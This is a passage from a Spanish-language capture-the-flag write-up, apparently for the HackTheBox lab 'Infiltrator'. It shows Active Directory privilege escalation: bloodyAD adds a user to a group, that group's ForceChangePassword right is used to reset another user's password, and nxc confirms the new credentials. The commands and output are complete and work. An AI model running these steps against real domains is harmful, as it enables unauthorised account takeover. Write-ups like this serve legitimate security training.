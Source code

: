```bash
```

A través de `bloodyAD`, nos añadiremos a nosotros mismos al grupo `CHIEFS MARKETING`. Verificamos que nos aparece que nos hemos añadido correctamente a través de `ldapsearch`.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING

❯ ldapsearch -x -H ldap://10.10.11.31 -D "CN=E.Rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb" -w 'Password01!' -b "CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb" member
#
# LDAPv3
# base <CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#
# Chiefs Marketing, Users, infiltrator.htb
dn: CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb
member: CN=E.rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb
member: CN=A.walker,CN=Users,DC=infiltrator,DC=htb
member: CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
```

### Abuse ForceChangePassword privileges to change a user's password

En `BloodHound` verificamos que los miembros del grupo `CHIEFS MARKETING` disponen del permiso `ForceChangePassword` sobre el usuario `m.harris@infiltrator.htb`, pudiendo modifcarle la contraseña sin disponer de la actual del usuario.

<figure><img src="../../../.gitbook/assets/3775_vmware_svxj9lerbR.png" alt=""><figcaption></figcaption></figure>

Realizaremos el cambio de contraseña del usuario `m.harris@infiltrator.htb` a través de la herramienta de `bloodyAD`, verificaremos que se ha modificado correctamente las credenciales.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k set password 'm.harris' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'm.harris' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Password01! 
```
